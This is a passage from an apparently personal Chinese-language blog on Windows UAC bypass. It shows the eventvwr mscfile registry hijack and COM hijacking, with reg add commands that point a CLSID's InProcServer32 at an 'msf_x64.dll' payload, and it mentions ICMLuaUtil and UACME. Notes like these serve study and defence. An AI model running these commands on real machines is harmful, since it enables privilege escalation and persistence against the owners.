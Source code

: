 ### eventvmr

    
    
    reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d C:\Windows\System32\cmd.exe /f  
      
  
---  
  
win10，win7均无效,不知道是哪个版本的事了，反正记录下来吧。

## 5\. COM劫持

和dll劫持类似，应用程序在运行时也会去加载指定CLSID的COM组件，其加载顺序如下

    
    
    HKCU\Software\Classes\CLSID  
    HKCR\CLSID  
    HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellCompatibility\Objects\  
      
  
---  
  
以eventvwr为例

执行该程序时会去寻找{0A29FF9E-7F9C-4437-8B11-F424491E3931}这个组件，这个组件又需要加载InProcServer32指定的DLL，而这个DLL的路径可由用户定义。

而eventvwr的这个组件一般在HKCR\CLSID找到，所以可以搜索路径劫持。

利用以下方法可以劫持（搜索路径劫持）

    
    
    reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "" /t REG_SZ /d "d:\msf_x64.dll" /f   
      
    reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "LoadWithoutCOM" /t REG_SZ /d "" /f   
      
    reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "ThreadingModel" /t REG_SZ /d "Apartment" /f   
      
    reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder /v "HideOnDesktop" /t REG_SZ /d "" /f   
      
    reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder /v "Attributes" /t REG_DWORD /d 0xf090013d /f  
      
  
---  
  
## 6\. 利用com接口

### ICMLuaUtil

### ![](https://gitee.com/fuli009/images/raw/master/public/20210815101555.png)

# 五. UACME

